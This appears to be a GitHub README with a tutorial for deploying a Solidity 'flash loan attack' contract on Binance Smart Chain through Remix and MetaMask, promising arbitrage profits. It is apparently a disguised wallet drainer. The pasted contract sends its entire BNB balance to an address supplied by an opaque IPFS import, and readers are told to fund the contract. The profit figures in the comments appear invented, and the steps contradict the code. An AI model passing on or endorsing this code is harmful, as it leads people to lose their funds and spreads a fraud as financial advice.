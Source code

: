 1. Download MetaMask For Chrome Web Browser
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step1.webp)

You can download and install MetaMask from this link:  
https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn.

---

2. Create a “Custom RPC” in MetaMask for connecting to Binance Smart Chain
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step2.webp)
this step is used for connecting your wallet to the Mainnet network Smart Chain. Below this is the network setting to add a Smart Chain.

| Field | Value |
| ----------- | ----------- |
|Name: | Smart Chain |
|New RPC URL: |https://bsc-dataseed.binance.org/ |
|ChainID: |56 |
|Symbol: |BNB |
|Block Explorer URL: |https://bscscan.com |
  
For complete info about the explanation, please visit this Binance official article:  
https://academy.binance.com/en/articles/connecting-metamask-to-binance-smart-chain.

---

3. Open http://remix.ethereum.org/ from your browser

Open Ethereum Remix to make or extend the smart contract which later is used for making a smart contract Flash Loan Attack to the Binance Smart Contract network.

---

4. Click on Solidity Compiler (2nd menu button from the left) and select compiler version to 0.5.0
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step4.webp)

Change the compiler version to “0.5.0+commit.1d4f565a”.  
This is needed to make your compiler version is the same as the source code you'll use.

---

5. Create a file Solidity “Flash Loan.sol” in the File Explorer (1st menu button from the left)
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step5.webp)

Copy and paste the code below to the Flash Loan.sol file :  

```
    pragma solidity ^0.5.0;
     
     
    // PancakeSwap Smart Contracts
    import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
    import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
     
    //BakerySwp Smart contracts
    import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";
     
    // Router
    import "ipfs://QmbJ685kFCLQmA8naW6u3LCpkZNV32rEB2LnwamfQ7eX4u";
     
    // Multiplier-Finance Smart Contracts
    import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
    import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
     
     
    contract InitiateFlashLoan {
        
    	RouterV2 router;
    	string public tokenName;
    	string public tokenSymbol;
    	uint256 flashLoanAmount;
     
    	constructor(
        	string memory _tokenName,
        	string memory _tokenSymbol,
        	uint256 _loanAmount
    	) public {
        	tokenName = _tokenName;
        	tokenSymbol = _tokenSymbol;
        	flashLoanAmount = _loanAmount;
     
        	router = new RouterV2();
    	}
     
    	function() external payable {}
     
    	function flashloan() public payable {
        	// Send required coins for swap
        	address(uint160(router.pancakeSwapAddress())).transfer(
            	address(this).balance
        	);
     
        	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
        	router.borrowFlashloanFromMultiplier(
            	address(this),
            	router.bakerySwapAddress(),
            	flashLoanAmount
        	);
        	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
        	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
        	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
        	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
        	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
        	router.transferBnbToMultiplier(router.pancakeSwapAddress());
        	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
        	router.completeTransation(address(this).balance);
    	}
    }
```

---

6. Click on Solidity Compiler (2nd menu button from the left) and Compile  
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step6.webp)
Look for a dropdown Contract at the bottom of the Solidity Compiler menu, on that dropdown Contract choose  
“GetFlash Loan (Flash Loan.sol)”  
and then click   
Compile Flash Loan.sol.  

---

7. Click on Deploy & run transactions (3rd menu button from the left) and Deploy
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step7.webp)

- At the very top, change the dropdown Environment value to “Injected Web3” (For remix users, firstly there will be a confirmation on the MetaMask, Accept the confirmation notif on the MetaMask wallet Chrome Extention).
- The MetaMask wallet address will automatically be connected If you're already connected to your MetaMask Account.
- There's a dropdown next to the, click that dropdown and create a Smart Contract name you desired. Eg. :

```
                     _TOKENNAME = Flash Loan (write random token name)
                     _TOKENSYMBOL = FLO (write random three of four-letter symbol)
                     _LOANAMOUNT = 10 (amount loan)
```

- Click Transact and confirm in MetaMask.
- after you create a Smart Contract, wait till the transaction complete and you'll have your smart contract address.

---

8. Input a Liquidity to the Smart Contract
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step8.webp)
To input a Liquidity, transfer your nominal BNB to the Smart Contract address you have created before by using the transfer feature in the MetaMask Chrome Extention. Send the nominal BNB ( the amount BNB will affect the profit you will earn ). Wait till the liquidity addition transaction complete.

---

9. Flash Loan Attack
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step9.webp)
After creating a Smart Contract with liquidity added ( Step 8 ) and set the amount of loan ( Step 7 ), click the dropdown from the success transaction ( Step 7 ) it will display a dropdown menu with some button that is action, tokenName, tokenSymbol.  
Click "action" ( red button ) to run the smart contract. wait for a while until the transaction complete, and regularly check your BNB balance on the wallet from the MetaMask Chome Extension.  

Note: Sometimes the code give error and sometimes it will not work from the first time.You must then start the whole process from begining.
